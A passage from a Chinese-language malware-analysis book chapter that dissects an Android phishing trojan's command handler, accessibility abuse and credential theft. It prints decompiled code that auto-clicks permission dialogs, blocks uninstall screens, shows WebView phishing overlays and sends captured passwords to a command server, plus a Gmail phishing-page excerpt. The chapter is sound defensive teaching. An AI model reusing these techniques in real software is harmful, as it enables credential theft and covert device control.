我们对 *com.sniff.sibling.Constants* 的分析揭示了所有恶意软件的命令与控制服务器及其 URL，但我们仍然没有得到应用程序能够执行的完整命令列表。这再次说明了纯动态分析的一个问题：如果服务器在观察期间没有指示恶意软件执行某些命令，那么动态分析环境永远无法了解这些命令。

我们知道，*/metrics* URL 至少支持两个命令：`inj_update` 和 `get_coms`。为了找到其他潜在的命令，我们可以搜索已知的命令，并希望其他命令也会在附近定义。对这两个命令字符串的搜索显示，它们出现在代码中的四个位置，其中三个位置非常有趣。

我们首先在 *com.sniff.sibling.Api.Controllers.ApiOperationsController* 中找到 `inj_update` 的引用。如 清单 4-19 所示，使用此字符串的代码被称为 `parsePayload`。

```
public void parsePayload(byte[] bArr) {
    char c;
    String str = new String(bArr, StandardCharsets.UTF_8);
    UtilGlobal.Log("parsePayload", "<<< " + str);
    String str2 = ApiSimpleMetricsPayload.fromJson(str).type;
    int hashCode = str2.hashCode();
    if (hashCode == 748954943) {
        if (str2.equals("notif_ic_update")) {
            c = 2;
        }
        c = 65535;
    } else if (hashCode != 1513349731) {
        if (hashCode == 1976172123 && str2.equals("get_coms")) {
            c = 0;
        }
        c = 65535;
    } else {
        if (str2.equals("inj_update")) {
            c = 1;
        }
        c = 65535;
    }
    if (c == 0) {
        ApiGetCommandsResponsePayload.fromJson(str).execute(
            this.contextWeakReference.get());
    } else if (c == 1) {
        ApiInjectionUpdateResponsePayload.fromJson(str).execute(
            this.contextWeakReference.get());
    }
}
```

*清单 4-19：parsePayload 中的代码确认了三个命令的存在。*

这段代码不必要地复杂，因为它只是解析从服务器解密后的响应，来判断检索到的 JSON 对象是否包含 `type` 标签，且其值为 `notif_ic_update`、`get_coms` 或 `inj_update`。我们还没有遇到 `notif_ic_update`，但它似乎没有被使用，因为在最终的 `if` 语句中没有任何分支与此命令相关联。也许这就是我们没有看到它从服务器发送的原因。

这些字符串再次出现在我们在分析过程中多次看到的神秘 `KingService` 类中。如 清单 4-20 所示，使用这些字符串的函数似乎是恶意软件的主执行循环。恶意软件的每一步都在其中列出，并与我们使用 logcat 和 Frida 所观察到的内容相符。

```
public /* synthetic */ void m13xbc1baa29(Handler handler) {
    ...
    if (!UtilGlobal.isInternetConnected(this)) {
        UtilGlobal.Log(TAG, "Network disconnected");
    } else if (UtilGlobal.isNetworkBusy(this) != 0) {
        UtilGlobal.Log(TAG, "Network busy, dropping one step");
        UtilGlobal.flagNetworkAsBusy(
            this, UtilGlobal.isNetworkBusy(this) - 1);
    } else if (!UtilGlobal.checkClientVerification(this) || 
            UtilGlobal.clientVerificationExpired(this, 300000L)) {
        UtilGlobal.Log(TAG, "Client is not verified. Verifying... ");
        new ApiVerifyController().sendRequest(this);
        UtilGlobal.flagNetworkAsBusy(this, 5);
    } else if (UtilGlobal.SettingsRead(
            this, Constants.appInjectTableTag).isEmpty()) {
        apiOperationController.sendRequest(
            this, new ApiSimpleMetricsPayload("inj_update"));
        UtilGlobal.enableInjections(this);
    } else {
        apiOperationController.sendRequest(
            this, new ApiOperationRequestPayload(this, "get_coms"));
    }
    if (UtilGlobal.checkClientVerification(this)) {
        if (!UtilGlobal.checkPermissions(this)) {
            UtilGlobal.Log(TAG, "Permissions revoked!");
        } else if (!UtilGlobal.isNotificationServiceEnabled(this)) {
            UtilGlobal.grantNotificationListenerAccess(this);
            UtilGlobal.millisecondsSleep(15000);
        } else if (!UtilGlobal.isIgnoringBatteryOptimizations(this)) {
            UtilGlobal.startDozeMode(this);
        }
    }
    UtilGlobal.millisecondsSleep(15000);
}
```

*清单 4-20：恶意软件的主要执行循环，位于* KingService *类中*

代码直接显示，恶意软件首先尝试连接到互联网，如果没有网络则放弃。然后它检查网络是否繁忙——即是否有其他服务器命令正在进行。它还检查以下内容：客户端是否已验证，如果已验证，则验证是否尚未过期；是否该发送`inj_update`命令到服务器；是否该发送`get_coms`命令到服务器；是否已授予必要的权限；以及恶意软件是否获得了通知权限。最后，它启动*休眠模式*，这是与电池优化相关的设置。

根据这个主要执行循环，我们可以确认我们的动态分析是相当完整的。我们发现了所有这些执行选项，除了与休眠模式相关的选项。代码检查将显示，进入休眠模式是恶意软件尝试将自己排除在系统范围的优化功能之外，以避免在电池续航模式下杀死恶意软件进程。

引用字符串`inj_update`的第三段有趣代码位于*com.sniff.sibling.Api.TDP.ApiGetCommandsResponsePayload*类中，包含进一步解析`get_coms`服务器响应的代码。为了简洁起见，这段代码的开头如清单 4-21 所示。

```
String[] strArr = this.commands;
int length = strArr.length;
for (int i = 0; i < length; i++) {
    String str = strArr[i];
    UtilGlobal.Log("ApiGetCommandsResponsePayload", str);
    strArr = strArr;
    switch (str.hashCode()) {
        case -2081539234:
            if (str.equals("sms_log")) {
                c = 11;
                break;
            }
            c = 65535;
            break;
        case -1691298703:
            if (str.equals("self_kill")) {
                c = 17;
                break;
            }
            c = 65535;
            break;
        case -646462158:
            if (str.equals("notif_ic_disable")) {
        ...
```

*清单 4-21：揭示额外服务器命令的代码*

这段代码遍历从命令与控制服务器接收到的所有命令，并执行每个命令的功能（此处省略）。我们现在可以看到，恶意软件理解以下命令：

app_list 将已安装应用的信息上传到服务器

sms_log 将设备上的所有短信上传到服务器

notif_ic_enable 开始拦截设备上的通知

notif_ic_disable 停止拦截设备上的通知

sms_ic_enable 开始拦截短信

sms_ic_disable 停止拦截短信

inj_enable 启用钓鱼叠加窗口

inj_disable 禁用钓鱼叠加窗口

inj_update 向服务器请求新的钓鱼窗口

除了这些命令外，恶意软件还在寻找许多没有任何代码支持的命令。这表明恶意软件正在积极开发，未来可能会添加更多功能。这些未实现的命令包括`self_kill`、`fg_disable`、`inj_list`、`self_cleanup`、`notif_ic_update`、`fg_enable`、`app_kill`、`sms_ic_update`、`sms_ic_list`和`notif_ic_list`。我们只能从它们的名称猜测它们的用途。

现在我们已经掌握了关于命令与控制服务器的一切：它们的域名、网址和命令。我们还知道了恶意软件收集的数据，以及哪些命令实际上被执行。这为我们提供了一个非常好的概览，证明了理解恶意软件的命令处理程序是理解其功能的关键。

#### ***更多的辅助功能滥用***

这款恶意软件样本的剩余谜团之一是它如何使用可访问性 API。我们已经发现恶意软件积极推动用户授予它对该 API 的访问权限，并且一旦完成授权，恶意软件就会广泛使用其类和方法。然而，我们仍然不知道它具体用这个 API 做什么。

使用可访问性 API 的代码不容易理解。该 API 复杂且凌乱，使用它实现任何功能都需要大量的代码。由于它包含超过 1,000 行代码，因此展示和解释所有恶意软件的可访问性 API 功能超出了本书的范围。相反，我们将限制在几个亮点上进行讨论。

大部分代码位于 *com.sniff.sibling.Accessibility* 包中，该包包含近 20 个类，主要用于模拟用户在预定义应用上的点击操作。例如，恶意软件可以通过一系列系统设置使自己成为默认的短信处理应用。同样，它还具有防御机制，用于检查用户是否打开了用于删除或禁用恶意软件的系统对话框，并在必要时关闭这些对话框，以防用户完成删除过程。

可访问性滥用代码的核心部分是 *com.sniff.sibling.Services.FitnessAccessibilityService* 类，该类扩展了默认的 Android 类 *android.accessibilityservice.AccessibilityService*，并提供了在系统上发生可访问性事件时调用的回调方法。该服务中最有趣的方法是 `windowStateChangedEvent`，该方法处理应用程序进入前台或以其他方式改变状态。当这种情况发生时，恶意软件会检查哪个应用程序进入了前台，并采取适当的行动。例如，如果它发现一个钓鱼目标，它会显示钓鱼对话框。如果它发现的是权限对话框，它会点击按钮授予该应用权限。清单 4-22 展示了 `windowStateChangedEvent` 方法的一个片段。

```
public void windowStateChangedEvent(AccessibilityEvent accessibilityEvent) {
    if (accessibilityEvent.getPackageName() != null) {
        if (UtilGlobal.injectionsEnabled(this) && UtilGlobal.packageHasInjection(
                this, accessibilityEvent.getPackageName().toString())) {
            Intent intent = new Intent(this, OverlayInjectActivity.class);
            intent.addFlags(268435456);
            intent.addFlags(8388608);
            UtilGlobal.SettingsWrite(this, Constants.appInjectTag, 
                accessibilityEvent.getPackageName().toString());
            startActivity(intent);
        } else if (UtilAccessibility.getEventClassName(accessibilityEvent).equals(
                "com.miui.home.launcher.uninstall.deletedialog")) {
            UtilAccessibility.goBack(this, 2);
        } else if (UtilAccessibility.getEventClassName(accessibilityEvent).equals(
                "com.android.packageinstaller.uninstalleractivity")) {
            UtilAccessibility.goBack(this, 2);
        } else if (accessibilityEvent.getPackageName().equals(
                "com.google.android.packageinstaller")) {
            UtilAccessibility.goBack(this, 2);
        }
        ...
        this.modulesManager.performAllNecessary(this, accessibilityEvent);
        if (UtilAccessibility.checkPermissionsClick(this, accessibilityEvent)) {
            UtilGlobal.Log("windowStateChangedEvent", "grantPermissionsClick called");
            UtilAccessibility.grantPermissionsClick(this, accessibilityEvent);
        }
        DozeModeAccessibilityModule.performIfNecessary(...);
        XiaomiDozeModeAccessibilityModule.performIfNecessary(...);
        DisablePreventionAccessibilityModule.performIfNecessary(...);
        DefaultSmsAppAccessibilityModule.performIfNecessary(...);
    DeletionPreventionAccessibilityModule.performIfNecessary(...);
        XiaomiSpecialPermissionInterceptActivityModule.performIfNecessary(...);
        ...
    }
}
```

*清单 4-22：可访问性 API 用于处理新应用程序进入前台的情况。*

首先，恶意软件检查是否应该注入钓鱼对话框（`injectionsEnabled`）并且是否应针对活动应用显示该对话框（`packageHas Injection`）。如果是，它会显示钓鱼对话框。接下来的几个 `if` 语句是自我防御机制，当用户打开系统对话框以删除恶意软件时，它会模拟点击返回按钮。之后是接受所有应用权限请求并执行某些系统对话框特定操作的代码。

#### ***自动授予权限***

该服务还处理常规的可访问性事件以及触发`windowContentChanged`和`notificationStateChanged`事件的事件。这些部分的代码混乱且难以跟随。例如，看看执行看似简单的操作——点击权限对话框上的“确定”按钮以自动授予恶意软件它请求的所有权限的代码。列表 4-23 展示了`checkPermissionsClick`的代码。

```
public static boolean checkPermissionsClick(
        AccessibilityService accessibilityService,
        AccessibilityEvent accessibilityEvent) {
    return (
        accessibilityEvent.getPackageName().toString().contains("permissioncontroller") || 
        accessibilityEvent.getPackageName().toString().equals("packageinstaller")
        ) && (
        findFirstNodeByName(accessibilityEvent.getSource(), Constants.appName) != null)
        && !UtilGlobal.checkPermissions(accessibilityService);
}
```

*列表 4-23：在必要时模拟点击权限对话框*

应用首先检查可访问性事件是否来自`permission controller`或`packageinstaller`，以确保应用正在显示期望的对话框。然后，它检查应用名称是否是导致可访问性事件的层级的一部分。我们在这里省略了执行这一操作的 20 行代码。最后，恶意软件确保它尚未被授予相关权限。如果它已经拥有所有需要的权限，说明对话框可能是由其他应用启动的。

在确认所有这些条件之后，恶意软件点击对话框的“确定”按钮。列表 4-24 展示了实现此点击的第一个方法。

```
public static boolean grantPermissionsClick(
        AccessibilityService accessibilityService,
        AccessibilityEvent accessibilityEvent) {
    try {
        return pressAllowButton(accessibilityEvent.getSource());
    } catch (Exception unused) {
        return false;
    }
}
```

*列表 4-24：点击权限对话框按钮的外部方法*

该方法简单地调用`pressAllowButton`，如列表 4-25 所示。在这里，事情变得更加复杂，因为该方法遍历了按钮 ID 和按钮标签的列表。按钮标签列表包含`Allow`和`OK`字符串，这意味着如果设备由于语言设置没有使用这些术语，该代码将无法找到按钮。按钮 ID 列表包含五个形式为`com.android.packageinstaller:id/permission_allow_button`的字符串，这些字符串可能是不同 Android 版本中权限对话框的 ID。

```
public static boolean pressAllowButton(
        AccessibilityNodeInfo accessibilityNodeInfo) {
    boolean z = false;
    for (String str : Constants.allowButtonsIdList) {
        z |= pressButtonByViewId(accessibilityNodeInfo, str);
    }
    if (!z) {
        for (String str2 : Constants.allowButtonsLabelList) {
            z |= pressButtonByText(accessibilityNodeInfo, str2);
        }
    }
    UtilGlobal.Log(TAG, "IsPressAllowSuccessful: " + z);
    return z;
}
```

*列表 4-25：定位权限对话框按钮*

要根据按钮的文本标签按下按钮，恶意软件必须首先获取活动对话框中所有按钮的文本。如果这些按钮中的某一个与预期的文本匹配，它就可以执行点击操作，如列表 4-26 所示。

```
public static boolean pressButtonByText(
        AccessibilityNodeInfo accessibilityNodeInfo, String str) {
    if (accessibilityNodeInfo == null) {
        return false;
    }
    while (true) {
        boolean z = false;
        for (AccessibilityNodeInfo accessibilityNodeInfo2 : 
                accessibilityNodeInfo.findAccessibilityNodeInfosByText(str)) {
            if (accessibilityNodeInfo2.isClickable()) {
                if (z || clickButton(accessibilityNodeInfo2)) {
                    z = true;
                }
            }
        }
        return z;
    }
}
```

*列表 4-26：点击权限对话框按钮*

一个单独的、几乎相同的方法基于按钮的 ID 而非标签文本来识别要点击的按钮。唯一的区别是，它使用`findAccessibilityNodeInfosByViewId`方法而不是`findAccessibilityNodeInfosByText`。剩下的方法`clickButton`显示在列表 4-27 中；它使用可访问性 API `performAction`来执行点击。

```
public static boolean clickButton(
        AccessibilityNodeInfo accessibilityNodeInfo) {
    if (accessibilityNodeInfo == null) {
        return false;
    }
    return accessibilityNodeInfo.performAction(16);
}
```

*列表 4-27：通过可访问性 API 点击按钮*

如你所见，即使是像点击权限对话框中的“确定”按钮这样简单的工作流，也需要如此多的代码，难怪更复杂的系统操作和对话框处理会超过 1000 行。理解这些代码需要对 Android 内部机制和设备制造商所做的修改有所了解。

#### ***注入钓鱼窗口***

让我们讨论一下恶意软件是如何实现其最终目的：钓鱼。概念上，钓鱼凭证涉及显示一个钓鱼窗口，希望受害者上当受骗，然后将窃取的凭证发送到远程服务器供将来使用。该应用遵循了这一教科书般的行为。

我们已经发现了关于钓鱼过程的一些信息。从辅助功能 API 代码中，我们得知应用会在目标应用变为活跃时显示钓鱼窗口。在分析与命令控制服务器的通信时，我们了解到目标应用的配置来源以及钓鱼窗口的样式。我们目前唯一不明白的是应用如何展示钓鱼窗口并窃取凭证。

一个名为`OverlayInjectActivity`的类负责显示钓鱼对话框、收集用户凭证并将其发送到命令与控制服务器（见清单 4-28）。

```
@Override // android.app.Activity
protected void onStart() {
    super.onStart();
    this.context = this;
    OverlayInjectResource packageInjection = UtilGlobal.getPackageInjection(
        this, UtilGlobal.SettingsRead(this, Constants.appInjectTag));
    this.resource = packageInjection;
    this.hideStop = true;
    if (!this.stopActivity && packageInjection != null) {
        try {
            WebView webView = new WebView(this);
            this.wv = webView;
            webView.getSettings().setJavaScriptEnabled(true);
            this.wv.setScrollBarStyle(0);
            this.wv.setWebViewClient(new MyWebViewClient());
            this.wv.setWebChromeClient(new MyWebChromeClient());
            this.wv.addJavascriptInterface(new WebAppInterface(this), 
                "Android");
            this.wv.loadDataWithBaseURL(null, 
                this.resource.getPageResource(this),
                    "text/html", "UTF-8", null);
            setContentView(this.wv);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

*清单 4-28：钓鱼窗口使用 WebView 来展示钓鱼页面。*

当显示此对话框时，它会将钓鱼页面的 HTML 代码加载到 WebView 中并显示给用户。`getPageResource`方法会获取针对目标定制的 HTML。

#### ***窃取凭证***

最后，为了理解应用如何窃取凭证，我们需要了解用户输入的凭证如何从 WebView 中的 HTML 页面传输到应用，并且应用是如何将它们发送到其命令与控制服务器的。

JavaScript 接口作为网站与应用之间的桥梁。如清单 4-28 所示，该接口基于一个名为`WebAppInterface`的 Java 类，并作为名为`Android`的 JavaScript 对象暴露给网站。清单 4-29 展示了完整的`WebAppInterface`类。

```
public static class WebAppInterface {
    OverlayInjectActivity parent;

    WebAppInterface(OverlayInjectActivity overlayInjectActivity) {
        this.parent = overlayInjectActivity;
    }

    @JavascriptInterface
    public void send_log_injects(String str) {
        returnResult(str);
    }

    @JavascriptInterface
    public void returnResult(String str) {
        new ApiOperationController().sendRequest(
            this.parent,
            new ApiInjectionSuccessRequestPayload(
                "inj_success",
                new ApiInjectionSuccess(
                    UtilGlobal.SettingsRead(
                        this.parent, Constants.appInjectTag),
                    str)
            ),
        true);
        OverlayInjectActivity overlayInjectActivity = this.parent;
        UtilGlobal.flagPackageInjectionIgnored(
            overlayInjectActivity, overlayInjectActivity.resource.id);
        this.parent.finish();
    }
}
```

*清单 4-29：* WebAppInterface *类作为应用与钓鱼页面之间的桥梁。*

该类定义了两个方法，并使用`@JavascriptInterface`注解标记，使它们可以被 HTML 页面的 JavaScript 代码调用。`send_log_injects`方法只是简单地调用了更有趣的方法`returnResult`。当应用接收到被窃取的凭证时，它会发出一个新的命令与控制消息，类型为`inj_success`，将窃取的凭证发送到服务器。

看一个例子 HTML 页面，比如钓鱼 Gmail 账户信息的页面，可以更容易理解这一互动。清单 4-30 展示了钓鱼页面的摘录，该页面从用户那里获取表单输入，将其转化为 JSON 字符串，并发送到应用。

```
<body>
    <div id="googlemail" style="display: none;">
    ...
    <input class="googlelogininput" id="passwordinput"
           type="password" name="password" placeholder="Password">

    <div class="linktext forgotemail">Forgot password?</div>
    <div class="spacer"></div>
    <button class="button" onclick="checkPassword();">Next</button>
    ...
</body>

function checkPassword() {
    if(document.getElementById('passwordinput').value.length > 5) {
        process('googlemail');
    }
}

function process(formId) {
    var ua = navigator.userAgent.toLowerCase();
    if(ua.indexOf("android") > -1) {
        try {
            Android.send_log_injects(formToJSONbyName(
                document.getElementById(formId)));
        } catch (err) {}
    }else{
        alert(formToJSONbyName(document.getElementById(formId)));
    }
}
```

*列表 4-30：Gmail 钓鱼页面的 HTML 代码摘录*

HTML 页面定义了一个包含密码字段和按钮的输入表单。当用户点击按钮时，调用 JavaScript 方法`checkPassword`进行快速的密码合理性检查。接着，`checkPassword`调用`process`方法，将输入表单序列化为一个 JSON 对象，并通过 JavaScript 接口方法`Android.send_log_injects`将其发送到应用的 Java 代码。应用的 Java 代码再将 JSON 字符串发送到服务器，完成密码窃取操作。此时，用户已经落入了钓鱼攻击的陷阱，恶意软件也达到了其目的。

### **接下来**

在本章按照分析步骤操作后，你应该能够理解该恶意软件的主要功能。它会等到目标应用程序运行后，创建一个覆盖在合法应用程序上的窗口，模仿应用程序的用户界面，并要求用户登录。用户在对话框中输入的凭证随后会被窃取。这是通过滥用可访问性 API 并由一个指挥控制服务器协调来实现的。

本章还应该展示了动态分析的价值。仅使用一些工具，从简单的日志分析到强大的 Frida 脚本，我们能够快速推进分析工作。我们成功地发现了大部分恶意软件的功能，并对其工作原理有了高层次的理解。随后，我们使用静态分析来补充那些动态分析难以捕捉的细节。

在本书的剩余部分，我们将不再手动分析单个恶意软件样本，而是转向使用机器学习作为快速识别和分类大量恶意应用程序的手段。今天互联网上存在着数百万个恶意软件样本，而人类分析师只会查看其中极少数几个。相反，防御者将通过自动化手段识别大多数恶意软件。从这个角度来看，本书接下来的几章更准确地描述了专业恶意软件检测和分析的工作方式。

[*OceanofPDF.com*](https://oceanofpdf.com)
